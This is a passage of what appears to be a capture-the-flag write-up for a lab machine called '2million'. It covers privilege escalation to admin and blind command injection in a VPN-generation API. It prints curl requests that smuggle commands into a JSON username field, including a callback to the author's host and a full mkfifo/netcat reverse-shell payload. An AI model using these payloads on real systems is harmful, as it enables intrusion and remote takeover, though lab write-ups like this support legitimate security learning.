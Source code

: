 I managed to elevate privilege vertically to admin by changing the account type to admin in this request.

### Command Injection

Now, we can continue to play with admin endpoints, since we have admin privileges.

```
http://2million.htb/api/v1/admin/vpn/generate
```

![](images/12.png)

I tried several requests for command injection, but I was not able to retrieve the output. I then made a request to my machine to see if the command injection was working.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=vlq4dnflvs5ebkefdsu3cija6v"  --header "Content-Type: application/json" --data '{"username":"sarp && curl 10.10.14.40:8000 # "}'
```

![](images/13.png)

I was successful to get the request from the server, which means the command injection is working. It's blind command injection.

I used the following payload to get the reverse shell.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=vlq4dnflvs5ebkefdsu3cija6v"  --header "Content-Type: application/json" --data '{"username":"sarp && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 4444 >/tmp/f # "}'
```
